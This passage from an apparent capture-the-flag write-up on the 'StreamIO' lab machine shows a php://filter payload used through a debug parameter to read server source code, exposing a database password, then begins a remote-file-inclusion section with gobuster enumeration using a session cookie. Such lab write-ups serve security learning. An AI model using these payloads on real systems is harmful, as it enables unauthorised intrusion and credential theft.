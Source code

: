 After looking around for a while, we were able to get the source code of some pages using a [PHP wrapper](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter). Here is an example with **index.php** which contains the password for the database:

- https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php

```php
<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
    header('HTTP/1.1 403 Forbidden');
    die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>

...[snip]...
```

It is an interesting finding, but we can’t really go further with this information. Let's continue to explore the web application.

# Remote File Inclusion

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. 

## More Recon

Again, we will use `gobuster`, this time with the `-x php` switch to try to discover interesting web pages to read with the **debug** feature.

```bash
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -u https://streamio.htb/admin/ -x php -c "PHPSESSID=ij79jktnjnlbkauguc6t42mmg0"

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://streamio.htb/admin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Cookies:                 PHPSESSID=ij79jktnjnlbkauguc6t42mmg0
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/04/27 16:19:08 Starting gobuster in directory enumeration mode
===============================================================

...[snip]...

/CSS                  (Status: 301) [Size: 154] [--> https://streamio.htb/admin/CSS/]
/JS                   (Status: 301) [Size: 153] [--> https://streamio.htb/admin/JS/]
/*docroot*            (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
```